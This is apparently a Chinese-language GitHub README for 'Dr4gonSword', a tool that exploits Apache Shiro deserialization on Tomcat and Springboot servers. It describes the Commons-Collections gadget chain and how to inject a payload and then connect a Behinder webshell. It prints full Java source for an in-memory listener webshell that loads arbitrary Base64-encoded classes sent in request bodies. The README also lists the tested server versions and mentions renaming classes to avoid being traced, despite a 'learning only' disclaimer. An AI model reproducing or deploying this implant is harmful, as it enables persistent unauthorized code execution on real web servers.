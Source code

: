 # Dr4gonSword
- [Dr4gon's Sword](#dr4gon-s-sword)
  * [Shiro](#shiro)
    + [使用方法](#----)
    + [利用链](#---)
    + [内存马和回显方法](#--------)
    + [本地测试过的中间件版本](#-----------)
- [未来准备更新(可能)](#----------)

版本0.0.2,目前只有Shiro,后续随着学习会应该加入更多漏洞

仅供交流学习漏洞利用方式,请勿用于非法用途

## Shiro

### 使用方法

点击Inject进行注入,然后才能连接冰蝎或者执行命令

连接冰蝎的时候加get参数stage=s

![2](2.png)

![1](1.png)

### 利用链

Commons-CollectionsK1_1 和K1的区别基本上只是我用的是InstantiateTransformer,K1用的是InvokerTransformer(大概是CC3和CC6分别缝合TemplatesImpl以后的区别)

总结:几乎一样

### 内存马和回显方法

使用listener注入,相比于[j1anFen](https://github.com/j1anFen)师傅用的servlet来说,不会被shiro拦,只要tomcat能解析的路径就能上线内存马,不用怕shirofilter匹配*的情况

并且defineclass直接加载了pageContext类(有的时候没有依赖导致注入失败)

另外我这边同一个listener同时实现命令执行回显和内存马,命令执行回显可以GBK编码

核心逻辑为实现一个Listener同时继承AbstractTranslet类并且实现ServletRequestListener接口来加载任意类并调用方法

```JAVA
public class Init extends AbstractTranslet implements ServletRequestListener  {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException { }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException { }
    public Init() throws Exception {
        super();
        super.namesArray = new String[]{"ccdr4gon"};
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardCtx = (StandardContext)webappClassLoaderBase.getResources().getContext();
        standardCtx.addApplicationEventListener(this);
    }

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {}
    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        try {
            RequestFacade requestfacade= (RequestFacade) sre.getServletRequest();
            Field field = requestfacade.getClass().getDeclaredField("request");
            field.setAccessible(true);
            Request request = (Request) field.get(requestfacade);
            if (request.getParameter("stage").equals("init")) {
                StringBuilder sb = new StringBuilder("");
                BufferedReader br = request.getReader();
                String str;
                while ((str = br.readLine()) != null) {
                    sb.append(str);
                }
                byte[] payload = Base64.getDecoder().decode(sb.toString());
                Method defineClass = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                defineClass.setAccessible(true);
                Class clazz = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), payload, 0, payload.length);
                clazz.newInstance();
            }
        }catch (Exception ignored){ }
    }
}
```

### 本地测试过的中间件版本

Tomcat 7.0.109 √

Tomcat 8.5.51 √

Tomcat 9.0.46 √

Springboot 2.3.5 √  <tomcat.version>9.0.39</tomcat.version> 

Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version>

Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version> shiro version 1.7.0 (gcm)

![3](./3.png)

![4](./4.png)

# 更新记录

## 0.0.2 

- 添加Tomcat7利用链(tomcat7巨烦)
- okhttp的https证书全信任，删除了get请求的一些header（为了不触发header too large）
- 添加了GCM加密方式
- 其他记不到了的小修改

# 未来准备更新(可能)

- 依赖有点问题,目前我是直接把tomcat的lib全加到projectstructure里了
- 把类名改了,用下去的话总感觉会有一天接到溯源的电话
- shiro
  - 自定义Behinder的pass(现在还只能是默认的rebeyond,太惨了)
  -  ~~aes gcm加密方式(说实话也不知道有没有用)~~ 0.0.2版本已更新
  - commons-collections4的利用链
- fastjson
- weblogic等等更多以后准备学习的JAVA漏洞
- 由于java流只能读取一次,okhttp库的IO目前处于能用就行的丑陋状态,之后看看怎么改改
- 一键清除所有listener

